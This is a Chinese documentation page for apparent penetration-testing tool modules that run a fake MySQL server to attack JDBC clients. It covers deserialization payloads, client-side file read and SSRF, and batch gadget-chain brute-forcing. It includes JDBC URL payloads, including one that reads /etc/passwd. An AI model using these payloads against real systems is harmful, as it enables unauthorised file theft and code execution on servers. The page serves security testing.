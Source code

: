 ```yaml
---
title: MySQL JDBC 利用
sidebar_position: 4
---
```


# MySQL JDBC 利用

## FakeMySQLPayload

MySQL JDBC 反序列化利用姿势

FakeMySQL 模块和 [JNDI 模块](jndi.md) 的利用方式非常相似。

JNDI 通过 LDAP/RMI 参数传递 token，与后端进行匹配并返回相应的 Payload。

相比之下，FakeMySQL 则通过 MySQL JDBC 用户名传递 token 参数。

这个模块也与 JNDI 模块一样采用了相同兼容逻辑：如果 token 没有匹配到，它将默认返回最新生成的 Payload。

## FakeMySQLReadPayload

MySQL JDBC 客户端文件读取、SSRF 姿势

这里支持两个传参方式，第一种是在 java chains 输入参数，然后返回一个 token，把该放入 jdbc payload 中

![](@site/static/doc/mysql-read.png)

```
jdbc:mysql://127.0.0.1:3308/test?user=[TOKEN]
```

第二种传参方式是在 username 中设置参数，格式为：`fileread_[file name]`

其中 fileread_ 是固定前缀，后缀跟要读取的文件名，例如下面 JDBC 读取文件 Payload

```
jdbc:mysql://127.0.0.1:3308/test?user=fileread_/etc/passwd
```

## FakeMySQLSHPayload

FakeMySQL 反序列化爆破链，一键测试常规反序列化链，提高测试效率

![](@site/static/doc/mysql-showhand.png)

可放入到 Burp 中进行批量爆破测试
![](@site/static/doc/fake-mysql.png)

总体使用流程等同于 JNDI 的爆破链，可进行参考: [JNDIShowHandPayload](./jndi.md#jndishowhandpayload)

## 参考

- https://github.com/4ra1n/mysql-fake-server